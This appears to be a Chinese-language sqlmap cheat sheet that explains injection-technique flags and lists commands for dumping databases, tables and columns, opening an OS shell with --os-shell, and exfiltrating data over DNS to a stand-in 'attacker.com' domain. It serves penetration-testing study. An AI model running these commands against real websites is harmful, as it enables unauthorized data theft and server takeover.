 指定sqlmap使用的检测技术，默认情况下会测试所有的方式。

  Boolean-based blind

  Error-based

  Union query-based

  Stacked queries(对文件系统、操作系统、注册表操作时，必须指定该方式)

  Time-based blind

--time-sec

设置延迟时间，基于时间的注入检测默认延迟时间是5秒

--union-cols

联合查询时默认是1-10列，当level=5时会增加到测试50个字段数，可以使用此参数设置查询的字段数。

--union-char

默认情况下sqlmap针对UNION查询的注入会使用NULL字符；

有些情况下使用NULL字符会造成页面返回失败，而使用一个随机整数是成功的，可以使用--union-char指定UNION查询的字符。

--dns-domain

攻击者控制了某DNS服务器，使用此功能可以提高数据查询的速度

例如：--dns-domain="attacker.com"

--second-order

有些时候注入点输入的数据，返回的结果并不是当前页面，而是另外一个页面。

使用此参数指定到哪个页面获取响应判断真假，--second-order后面跟一个判断页面的URL地址。例如：

--second-order="http://1.1.1.1/a.php"


[SQLMap中tamper的简介](https://blog.csdn.net/Litbai_zhang/article/details/99681398)
#### sqlmap
sqlmap -u "http://xxx" --batch
    
    之后写入同样的命令加参数
    -u URL
    --current-user
    --current-db
    --dump
    --os-shell
    -D tourdata --tables # 所有表
    -D tourdata -T userb --columns # 表字段
    sqlmap.py -r Filename.txt --dbs --level=3
    sqlmap -u http://x.x/show.php?id=35 --level=3 -D test --tables -C thekey --dump


使用http请求文件

    可以用burpsuite抓包并复制到txt文件（注意请用gedit编辑器，vim会因为格式问题报错）
    sqlmap -r 1.txt
    2.使用burpsuite log文件 （勾选上options中的Misc中的proxy）
    sqlmap -l log.txt
